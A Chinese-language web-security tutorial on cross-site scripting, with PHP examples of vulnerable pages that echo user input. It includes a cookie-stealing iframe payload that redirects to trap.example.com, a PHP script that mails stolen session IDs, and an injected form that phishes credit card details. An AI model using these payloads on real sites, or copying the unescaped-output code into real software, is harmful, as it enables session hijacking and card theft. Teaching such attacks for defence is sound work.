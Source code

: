 跨站脚本（基础篇）之攻击手段与影响
=================================================================
为了更好地理解`XSS`的攻击方法与影响，首先让我们来看一下 **`XSS`被恶意使用的`3`种方式**：
+ **窃取`Cookie`值**
+ **通过`JavaScript`攻击**
+ **篡改网页**

### XSS窃取Cookie值
假设以下`PHP`脚本是搜索页面的一部分。该页面需要用户登录后才能使用，页面上显示的是搜索关键词。
```php
<?php
    session_start();
    //登录校验（略）
?>
<body>
检索关键词：<?php echo $_GET['keyword']; ?><br>
以下略
</body>
```
先来看一下正常情况，假设关键词为“Haskell”，URL如下：http://example.jp/43/43-001.php?keyword=Haskell 。

再看一下攻击的例子：http://example.jp/43/43-001.php?keyword=<script>alert(document.cookie)</script>

上面这个攻击的例子中，**保存在`Cookie`中的会话`ID(PHPSESSID)`会被显示出来。表明外部注入的`Javascript`成功
读取到了会话`ID`**。

#### 使用被动攻击盗取他人的Cookie值
能够显示自己的会话`ID`对于攻击者来说并无太大意义，**在实际的攻击中，攻击者需要将存在隐患的网站的用户引诱至恶意网站**。
以下就是恶意网站的示例：
```php
<html><body>
商品大甩卖
<br><br>
<iframe width=320 height=100 src="http://example.jp/43/43-001.php?keyword=<script>window.location='http://trap.example.com/43/43-901.php?sid='%2Bdocument.cookie;</script>">
</frame>
```
**恶意网站的`HTML`使用了`iframe`元素来显示存在隐患的网站的页面（`/43/43-001.php`），并对其实施`XSS`攻击**。
```
实际的攻击中，攻击者会通过设置CSS将iframe部分隐藏，以不被用户看到
```
攻击流程：
+ 恶意网站的`iframe`中显示出存在隐患的网站
+ 存在隐患的网站遭受攻击后，`Cookie`值被添加到`URL`的查询字符串中，页面跳转到信息收集页面
+ 信息收集页面将接收到的`Cookie`值通过邮件发送给攻击者

以下为收集信息用的脚本，它会将收集到的会话`ID`发送给攻击者的邮箱（假定为`wasbook@example.jp`）。
```php
<?php
    mb_language('Japanese');
    $sid = $_GET['sid'];
    mb_send_mail('wasbook@example.jp','攻击成功','会话ID:' . $sid, 'From: cracked@trap.example.com');
?>
<body>攻击成功<br>
<?php echo $sid; ?>
</body>
```
如此这般，**如果用户是在登录了存在隐患的网站之后浏览的恶意网页**，就会中了`XSS`的招而使自己的会话`ID`通过邮件发送给攻击者。
攻击者利用得到的会话`ID`，就可以伪装成其他用户肆意忘为。

### 通过JavaScript攻击
在上面的例子中，攻击者利用`JavaScript`读取到了用户的`Cookie`值，然而，事实上利用`JavaScript`实施的攻击却远不止如此。
另外，随着`Ajax`技术的风靡，通过`JavaScript`调用`Web`应用的各种功能的程序（`API`）在网站中的分量正在逐步增加。
由于`API`也能被恶意用于实施攻击，因此，综合使用`XSS`与`JavaScript`的攻击实施起来反而变得更容易了。

#### 篡改页面
示例，某新发布的手机预购网站。该网站由于存在`XSS`漏洞，因此便能够对网页中的`HTML`元素进行添加/更改/删除，
或者更改表单发送的目标。

网页脚本的主干内容如下。由于该页面兼任着输入页面和编辑页面，因此各个输入框都设置了初始值。而`XSS`漏洞就存在于此。
```php
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">
<html>
<head><title>全新手机预约</title></head>
<body>
<form action="" method="POST">
姓名<input size="20" name="name" value="<?php echo @$_POST['name']; ?>"><br>
地址<input size="20" name="addr" value="<?php echo @$_POST['addr']; ?>"><br>
电话号码<input size="20" name="tel" value="<?php echo @$_POST['tel']; ?>"><br>
型号<input size="10" name="kind" value="<?php echo @$_POST['kind']; ?>"><br>
数量<input size="5" name="num" value="<?php echo @$_POST['num']; ?>"><br>
<br>
<input type=submit value="申请"></form>
</body>
</html>
```
**虽然该网站没有认证功能，但同样能对其实施`XSS`攻击**。

以下`HTML`(`43-902.html`)为对“某新款手机的预约网站”进行`XSS`攻击的恶意网页。
**该页面同时也可以作为不使用`JavaScript`的`XSS`攻击的示例**，页面上通过样式将攻击用表单的提交
按钮伪装成了链接的样子。
```php
<html>
<head><title>使用信用卡预约全新手机</title></head>
<body>
现在可以使用信用卡预约手机，赶紧下单吧。
<BR>
<form action="http://example.jp/43/43-002.php" method="POST">
<input name="name" type="hidden" value='">
    </form><form style=top:5px;left:5px;position:absolute;z-index:99;background-color:white 
    action=http://trap.example.com/43/43-903.php method=POST>请使用信用卡支付预购定金<br>姓名
    <input size=20 name=name><br>地址<input size=20 name=addr><br>电话号码<input size=20 name=tel>
    <br>型号<input size=10 name=kind>数量<input size=5 name=num><br>信用卡号<input size=16 name=card>
    有效期限<input size=5 name=thru><br><input value=申请 type=submit><br><br><br><br></from>'><!-注入的HTML->

<input style="cursor:pointer;text-decoration:underline;color:blue;
border:none;background:transparent;font-size:100%;" type="submit" value="手机预约中心"> <!-伪装成链接的按键->
</form>
</body>
</html>
```
恶意网页通过下列手段隐藏原先的`form`并添加新的`form`，从而改变页面：
+ **使用</form>使原先页面的`form`元素结束**
+ **添加新的form元素，并指定`style`如下：**
    + 通过指定绝对座标将`form`的位置定位于左上角
    + 将`z-index`设置为很大的值（`99`），确保其堆叠顺序在原先`form`的前面
    + 将背景色设计为白色，从而隐藏原先的`form`
+ **将`action`的`URL`指定为恶意网站**

页面上被添加了“请使用信用卡支付预购定金”和输入信用卡卡号及有效期限的文本框。此外，尽管页面上看不出来，
但`form`元素的`action`属性已经被变成了恶意网站的`URL`。

然而，浏览器地址栏上显示的`URL`却同先前的手机预购网站完全一致。此外，虽然本例没有涉及，**但事实上当网站为`https`时
其证书也会被显示为正规。因此，用户便找不到任何蛛丝马迹来识破这一伪装的页面**。

由此可见，**`XSS`并非一定会使用`JavaScript`，因此，如果防范策略仅局限于`script`元素（例如将“script”单词全部删除），
攻击者还是会有可乘之机**。而对用户来说，仅在浏览器中禁止`Javascript`也是不能得以高枕无忧的。
















